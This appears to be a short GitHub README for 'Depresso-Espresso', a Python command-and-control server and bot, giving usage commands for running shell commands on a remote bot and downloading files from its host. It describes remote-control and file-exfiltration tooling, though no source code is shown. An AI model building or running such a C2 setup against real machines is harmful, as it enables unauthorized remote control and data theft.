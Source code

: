 # Depresso-Espresso
 A simple C2 server and bot written in python

## Usage
### Depresso
``` cmd
./depresso-c2.py
Shell> <command to be run on espresso bot>
```
Depresso has two special commands; download and quit. Download will enable you to download a file from the system that espresso is on. Quit... well quits.

### Espresso
```cmd
./espresso -i <ip of depresso server>
```
